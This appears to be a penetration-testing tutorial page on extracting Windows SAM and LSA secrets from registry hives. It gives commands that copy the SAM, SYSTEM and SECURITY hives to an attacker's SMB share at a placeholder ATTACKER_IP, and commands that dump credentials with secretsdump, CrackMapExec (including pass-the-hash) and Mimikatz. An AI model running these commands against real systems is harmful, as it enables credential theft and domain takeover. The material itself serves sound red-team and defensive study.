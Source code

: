 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive     | Details                                                        | Format or credential material                                                                                                                                                                                               |
| -------- | -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SAM      | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes                                                                                                                                                                                                             |
| SECURITY | stores domain cached credentials (referred to as LSA secrets)  | <p>Plaintext passwords</p><p>LM or NT hashes</p><p>Kerberos keys (DES, AES)</p><p>Domain Cached Credentials (DCC1 and DCC2)</p><p>Security Questions (<code>L$</code><em><code>SQSA</code></em><code>&#x3C;SID></code>)</p> |
| SYSTEM   | contains enough info to decrypt SAM secrets and LSA secrets    | N/A                                                                                                                                                                                                                         |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material                      | Subsequent attacks                                                                                                                                                                                            |
| ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords                      | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md) or [silver tickets](../../kerberos/forged-tickets.md)           |
| LM and NT hashes                         | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash)     | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets.md)                                                                       |
| Kerberos keys (DES, AES)                 | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets.md)                                                                            |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md)                                                                                                                                                                         |

## Practice

### Exfiltration

{% tabs %}
{% tab title="UNIX-like" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](broken-reference) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```

```bash
# Start an SMB share
$ smbserver.py -smb2support "someshare" "./" -user veresk -password veresk

# Mount the smb share with
PS> New-PSDrive -Name 'someshare' -PSProvider FileSystem -Credential $cred -Root '\\10.11.55.3\someshare'
PS> dir someshare:
```
{% endtab %}

{% tab title="Live Windows" %}
When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

{% hint style="info" %}
Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](broken-reference) like demonstrated for an NTDS export.
{% endhint %}
{% endtab %}

{% tab title="Down Windows" %}
When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```
{% endtab %}
{% endtabs %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene** secretsdump and crackmapexec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.
{% endhint %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}
